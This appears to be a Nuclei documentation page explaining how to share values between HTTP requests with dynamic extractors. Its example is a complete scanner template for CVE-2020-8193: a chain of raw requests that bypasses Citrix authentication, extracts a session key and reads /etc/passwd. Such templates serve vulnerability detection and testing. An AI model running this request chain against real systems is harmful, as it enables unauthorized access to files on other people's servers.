```yaml
---
title: "Value Sharing"
description: "Learn about sharing values between HTTP requests in the HTTP template."
---
```


## HTTP Value Sharing

In Nuclei, It is possible to extract value from one HTTP request and share/reuse it in another HTTP request. This has various use-cases like login, CSRF tokens and other complex.

This concept of value sharing is possible using [Dynamic Extractors](/templates/reference/extractors#dynamic-extractor). Here's a simple example demonstrating value sharing between HTTP requests.

This template makes a subsequent HTTP requests maintaining sessions between each request, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```yaml
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

http:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body
```